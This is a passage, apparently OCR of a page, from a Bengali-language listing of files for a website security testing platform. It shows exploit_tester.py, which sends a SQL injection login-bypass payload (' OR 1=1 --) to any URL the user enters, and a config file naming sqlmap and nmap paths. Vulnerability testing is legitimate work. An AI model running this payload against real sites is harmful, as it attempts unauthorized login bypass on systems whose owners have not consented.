
**ফাইলের নাম**: `log_monitor.py`

---

#### **9. `exploit_tester.py`** - **Manual Exploitation Tool**

```python
import requests

def exploit_test(url):
    payload = {"username": "' OR 1=1 --", "password": "password"}
    response = requests.post(url, data=payload)
    if "Welcome" in response.text:
        print("Potential vulnerability found!")
    else:
        print("No vulnerability detected.")

if __name__ == '__main__':
    url = input("Enter the URL to test: ")
    exploit_test(url)
```

**ফাইলের নাম**: `exploit_tester.py`

---

#### **10. `config.py`** - **Configuration & Settings**

```python
# Configurations for the app
SQLMAP_PATH = "/usr/local/bin/sqlmap"
NMAP_PATH = "/usr/bin/nmap"
LOG_FILE_PATH = "/var/log/system.log"
```

**ফাইলের নাম**: `config.py`

---

এভাবে আপনি প্রতিটি ফাইলকে সঠিক নাম সহ সেভ করতে পারবেন। এটি একটি সম্পূর্ণ ওয়েবসাইট নিরাপত্তা টেস্টিং প্ল্যাটফর্ম যেখানে আপনি ওয়েবসাইটের নিরাপত্তা পরীক্ষা করতে পারবেন এবং ফলাফল দেখতে পারবেন।

